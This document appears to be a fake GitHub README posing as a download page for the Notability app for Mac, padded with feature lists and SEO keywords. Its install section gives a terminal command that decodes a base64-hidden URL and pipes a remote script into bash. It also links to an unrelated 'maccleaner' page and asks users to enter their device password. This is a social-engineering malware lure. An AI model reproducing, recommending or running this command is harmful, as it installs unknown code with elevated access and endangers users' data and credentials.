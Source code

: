 # Notability Mac Download

![Notability Icon](https://img.icons8.com/fluent/512/notability.png)  

---

## ⬇️ Download Notability for Mac

[![⬇️ Download Now](https://img.shields.io/badge/Notability-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/maccleaner)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0801-1.gif](https://i.postimg.cc/13YxsdYG/0801-1.gif)](https://postimg.cc/DSspcxh0)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-2.gif](https://i.postimg.cc/4x1CqdpS/0723-2.gif)](https://postimg.cc/Bjtw1JYT)

---

## 🧭 What is Notability for Mac?

**Notability for Mac** is a powerful and intuitive **note-taking and annotation app** that has become a go-to choice for students, professionals, educators, and creatives. Built with macOS in mind, it allows users to effortlessly **write, draw, annotate PDFs, record audio**, and organize all of their thoughts in one place.

Notability combines **typed and handwritten notes**, making it a favorite for anyone needing flexibility and clarity. With full support for **Apple Pencil (when used via iPad + iCloud)** and **macOS keyboard and mouse navigation**, you can seamlessly move between platforms without losing your work or style.

You can annotate **PDFs, lecture slides, and forms**, record synchronized audio notes during meetings or classes, and organize everything using **dividers and subjects**. Its powerful search functionality even scans handwritten notes, letting you find ideas instantly.

Whether you're using a **MacBook**, **MacBook Pro**, or **desktop macOS**, Notability syncs effortlessly via **iCloud**, giving you access to your notes from any Apple device.

---

## 🧰 Key Features

- ✍️ **Handwriting and typing** in the same note  
- 📎 Annotate **PDFs, images, forms, slides, and documents**  
- 🎙️ **Audio recording** with synced playback  
- 📁 **Organize** notes with folders, dividers, and tags  
- 🔎 **Search** through typed and handwritten text  
- ☁️ **iCloud Sync** across Mac, iPad, and iPhone  
- 🧠 Supports **math equations, diagrams, and sketches**  
- 📤 Export to **PDF, RTF, or share via email or cloud**  
- 💾 Automatic backup to Dropbox, Google Drive, OneDrive  
- 🌙 Light & Dark Mode + fully customizable themes

---

![Notability on Devices](https://media.idownloadblog.com/wp-content/uploads/2021/03/Notability-iPhone-iPad-Mac.jpg)

---

## 💻 System Requirements

- **macOS**: 10.15 Catalina or later  
- **Storage**: 200MB available  
- **iCloud**: Optional for sync  
- **Architecture**: Intel and Apple Silicon (M1, M2, M3)

---

## 🔑 Keywords

`notability for macbook`, `notability mac`, `download notability for mac`,  
`notability app for mac`, `notability download for mac`, `notability download mac`,  
`notability for mac download`, `notability for mac free download`,  
`notability for mac laptop`, `notability for macbook pro`,  
`notability mac download`, `notability macos`

---

